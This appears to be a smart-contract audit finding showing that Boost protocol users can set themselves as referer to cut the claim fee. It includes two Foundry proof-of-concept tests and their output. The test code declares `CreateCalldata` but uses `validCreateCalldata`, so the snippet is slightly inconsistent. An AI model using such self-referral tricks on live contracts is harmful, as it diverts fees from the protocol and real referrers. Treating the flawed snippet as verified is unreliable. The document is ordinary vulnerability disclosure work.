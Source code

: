 Polished Mossy Condor

Medium

# Users can set the referer to themselves or their other accounts to reduce claimFee in `claimIncentiveFor`

## Summary
User can set referer to themselves or their other accounts to reduce claimFee in `claimIncentiveFor`. 
## Vulnerability Detail
In function `claimIncentiveFor` , user should pay claimFee to call this function. This function have a parameter `referer`, some of the claimFee will transfer to referer as `referralShare`. 
If there is no referer, the parameter should be set to 0.
But user can set the referer to themselves to receive `referralShare`, they can therefore pay less claimFee. 

```solidity
    function testPOC1() public {
        bytes memory CreateCalldata = LibZip.cdCompress(
            abi.encode(
            BoostCore.InitPayload({
                budget: budget,
                action: action,
                validator: BoostLib.Target({isBase: true, instance: address(0), parameters: ""}),
                allowList: allowList,
                incentives: _makeIncentives(1),
                protocolFee: 500, // 5%
                referralFee: 1000, // 10%
                maxParticipants: 10_000,
                owner: address(1)
                })
            )
        );
        uint256 tokenId = 1;
        mockERC721.mint{value: 0.1 ether}(address(this));
        mockERC721.mint{value: 0.1 ether}(address(this));
        mockERC721.mint{value: 0.1 ether}(address(this));
        boostCore.createBoost(validCreateCalldata);
    
        address receiver = makeAddr("receiver");
        vm.deal(address(this), 1 ether); 
        console.log("User balance before call ClaimIncentive: ", address(this).balance); 
        bytes memory data = abi.encode(address(this), abi.encode(tokenId));
        boostCore.claimIncentive{value: 0.000075 ether}(0, 0, address(0), data);
        console.log("User balance", address(this).balance); 
    }
    function testPOC2() public {
        bytes memory CreateCalldata = LibZip.cdCompress(
            abi.encode(
            BoostCore.InitPayload({
                budget: budget,
                action: action,
                validator: BoostLib.Target({isBase: true, instance: address(0), parameters: ""}),
                allowList: allowList,
                incentives: _makeIncentives(1),
                protocolFee: 500, // 5%
                referralFee: 1000, // 10%
                maxParticipants: 10_000,
                owner: address(1)
                })
            )
        );
        uint256 tokenId = 1;
        mockERC721.mint{value: 0.1 ether}(address(this));
        mockERC721.mint{value: 0.1 ether}(address(this));
        mockERC721.mint{value: 0.1 ether}(address(this));
        boostCore.createBoost(validCreateCalldata);
    
        address receiver = makeAddr("receiver");
        vm.deal(address(this), 1 ether); 
        console.log("User balance before call ClaimIncentive: ", address(this).balance); 
        bytes memory data = abi.encode(address(this), abi.encode(tokenId));
        boostCore.claimIncentive{value: 0.000075 ether}(0, 0, address(this), data);
        console.log("User balance", address(this).balance); 
    }
```
test output
```solity
[PASS] testPOC1() (gas: 2696867)
Logs:
  User balance before call ClaimIncentive:  1000000000000000000
  User balance 999925000000000000

[PASS] testPOC2() (gas: 2704302)
Logs:
  User balance before call ClaimIncentive:  1000000000000000000
  User balance 999940000000000000
```
As poc show, user can reduce claimFee.
## Impact
User would abuse this function to reduce claimFee. 
## Code Snippet
https://github.com/sherlock-audit/2024-06-boost-aa-wallet/blob/main/boost-protocol/packages/evm/contracts/BoostCore.sol#L310
## Tool used

Manual Review

## Recommendation
add some check about `referer` 